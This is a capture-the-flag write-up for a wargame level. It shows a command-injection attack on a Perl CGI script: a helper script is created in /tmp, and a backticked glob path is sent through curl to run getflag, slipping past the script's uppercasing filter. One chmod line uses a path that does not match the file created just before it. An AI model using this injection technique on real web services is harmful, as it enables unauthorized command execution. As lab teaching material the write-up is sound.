 # Level12

A perl script can be found in the directory with flag12 rights. This time we have an unprotected egrep on user input string. However, the input string goes through some manipulation.

```perl
$xx =~ tr/a-z/A-Z/;
# changes lowercase to uppercase

$xx =~ s/\s.*//;
# removes spaces
```

Therefore we cannot input the command directly through the string but we can inject the path to a script that will run getflag, as long as the path has no spaces or lowercase letters.

```bash
echo "getflag > /tmp/token" > /tmp/RUNME
chmod +x /TMP/RUNME
```

Similar to level04 this script uses CGI, and its defined webserver is `localhost:4646`
We can use curl to pass the path parameter that be assigned to `$xx`

```bash
curl http://localhost:4646?x=\`/*/RUNME\`
cat /tmp/token
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
